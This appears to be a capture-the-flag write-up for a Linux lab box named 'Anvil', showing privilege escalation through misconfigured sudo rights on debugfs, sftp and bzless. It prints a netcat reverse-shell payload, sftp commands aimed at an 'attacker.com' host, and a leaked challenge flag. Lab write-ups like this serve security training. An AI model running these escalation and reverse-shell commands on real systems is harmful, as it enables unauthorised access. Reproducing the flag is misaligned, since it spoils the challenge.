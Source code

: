 # Box: Anvil
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/540b796a-a533-4954-b271-825e14715886)

Lets connect to the machine

command:```nc -t 10.0.40.10 1337```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/008fc3e5-46c3-407c-a88a-fab135dd2dd6)

cool we are connected to the target.

Running the ```sudo -l``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/469b4ce8-49a3-4b94-a37a-ad2f885d9ee3)

We can see that user ```silver``` can run the binary ```debugfs``` with sudo privileges. This is what we call ```Misconfigured SUDO Privileges```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/debugfs/), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4684de10-2019-44b0-bf11-e2b06239fde6)

So, to escalate our privileges

command:```sudo -u silver /sbin/debugfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/326117dd-f7bb-4267-ba24-46c0a73b547d)

Good, now run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef7d5dd7-87e3-4a51-8449-3450d840922d)

Nice, we were able to successfully escalate our privileges to user ```silver```

Now, lets further escalate our privileges

Running the ```sudo -l``` command again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d6b10ccb-e766-4617-a4cf-8658b06314b4)

So, user ```gold``` has ```sudo``` permissions to run the binary ```sftp```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/sftp/#sudo), I found this
ETSCTF_9db45ae7d07646fda58ed3dbec390b85
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/40fe3caa-f578-40b8-a5c0-1cdf7e06ce11)

So we can try to do something like this

command:```HOME=blackanon@attacker.com```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a7801fbd-eacc-4043-95f2-1fd60c4bec33)

cool, now run this ```sudo -u gold /usr/bin/sftp $HOST```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8619f907-f430-4fae-a9d2-130d8e6658f4)

oops, we can see that it's ssh running here. So, I decided to trigger the ```help``` menu

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/48337434-ae85-4d2e-b3e1-eb8804b196d1)

We can use that switch to run a program, this means we can try to execute a reverse shell

Payload
```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f
```

Save this in a ```.sh``` file and send it over to the target

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b8f56e07-b469-470f-aad8-5ff784b69f10)

Cool, now lets execute that command again, but this time ensure you have your netcat listener set up

command
```
chmod +x bash.sh
HOST=blackanon@attacker.com
sudo -u gold /usr/bin/sftp -S /tmp/bash.sh $HOST
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccb23a8-197d-4424-9d63-c7550b1b0765)

It worked, we got a shell as user ```gold```.

Further escalating our privileges

Running the ```sudo -l``` command again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3d6af27d-4339-4033-b688-61153312e06e)

We see that user ```ETSCTF``` can run the binary ```bzless``` with sudo privileges

To do this,

command:```sudo -u ETSCTF /bin/bzless```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/acafe978-11e9-431b-a149-dd27fffb0ac8)

It requires a file parameter, what if we tried something like this

command:```sudo -u ETSCTF /bin/bzless /bin/bash```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1eb66e74-4404-418e-9b88-45a644b3ee0e)

We get this, so just run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa6a7453-8f0a-46e1-a579-e3f7485daae4)

Hit the enter key,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ca38ddab-f0b2-4462-90d7-fa969b1694a8)

It worked hehe. 

We have successfully completed this exercise😎



That will be all for today
<br><br>
[Back To Home](../../index.md)












